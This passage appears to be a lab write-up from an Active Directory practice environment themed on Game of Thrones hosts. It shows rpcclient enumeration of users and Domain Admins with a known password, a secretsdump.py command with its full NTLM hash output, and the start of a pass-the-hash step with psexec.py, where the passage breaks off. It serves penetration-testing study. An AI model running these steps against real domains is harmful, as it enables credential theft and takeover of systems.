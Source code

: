 Since I got one user credentials for Winterfell which is `robb.stark:sexywolfy`, let's try to connect to it via rpcclient.

`rpcclient -U 'robb.stark%sexywolfy' 10.4.10.11`

By running `enumdomusers` I get the list of users:

![Pasted_image_20250107135937](https://github.com/user-attachments/assets/1d53e4bf-1791-4918-9ab7-a909503794f8)

Then I get the list of groups by running `enumdomgroups`:

![Pasted_image_20250107140035](https://github.com/user-attachments/assets/e16c66bf-f4a9-4bce-9ce6-4f32a423f49c)

Now, since I want to get the members of the Domain Admins, i use `qureygroupmem 0x200`:

![Pasted_image_20250107140129](https://github.com/user-attachments/assets/76aa0b9e-16f1-448c-bed3-c2cd7711aaaf)

Here I see the `rid-s` of the members of Domain Admin group, which are `0x1f4` and `0x457`, and by looking at the users I can conclude that the members of this admin group are:

`user:[Administrator] rid:[0x1f4]`
`user:[eddard.stark] rid:[0x457]`

Now, let's get the hashes, by using `secretsdump.py`, and running:

```bash
secretsdump.py north.sevenkingdoms.local/robb.stark:sexywolfy@10.4.10.11
```

I got:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:34b24f1a67d914d8ef876f8bd02f3f0b:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:b777555c2e2e3716e075cc255b26c14d:::
brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:8a647d60877c8743dccb8ff2aa18a060:::
CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:0073abf6ce521277f2d1a148bc955aa9:::
SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:ac819f7c593d51f56b614f3dcc10f193:::
```


Then by using `Pass the Hash` I use this hash to authenticate as the Domain Admin, using the `psexec.py` tool from `impacket`:
